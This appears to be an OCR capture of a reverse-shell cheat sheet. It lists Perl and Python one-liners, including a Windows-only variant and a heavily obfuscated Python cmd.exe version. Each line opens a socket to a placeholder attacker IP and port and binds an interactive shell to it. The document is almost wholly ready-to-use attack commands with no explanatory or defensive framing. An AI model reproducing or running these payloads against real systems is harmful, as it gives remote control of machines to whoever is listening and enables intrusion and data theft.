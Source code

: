 
╔PERL═════════════════════════════════════════════════════════════════════════════════════════════════════════════════════════════
║ perl -e 'use Socket;$i="[IP]";$p=[PORT];socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
 
╔═════════════════════════════════════════════════════════════════════════════════════════════════════════════════════════════════
║ perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"[IP]:[PORT]");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'									
											 
╔══════════════╦══════════════════════════════════════════════════════════════════════════════════════════════════════════════════
║ Windows only ║ perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"[IP]:[PORT]");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'																					
  
══════════════════════════════════════════════════════════════════════════════════════════════════════════════════════════════════


╔PYTHON═══════════════════════════════════════════════════════════════════════════════════════════════════════════════════════════
║ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[IP]",[PORT]));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'    

╔═════════════════════════════════════════════════════════════════════════════════════════════════════════════════════════════════
║ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[IP]",[PORT]));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

╔═════════════════════════════════════════════════════════════════════════════════════════════════════════════════════════════════
║ C:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('[IP]', [PORT])), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"
     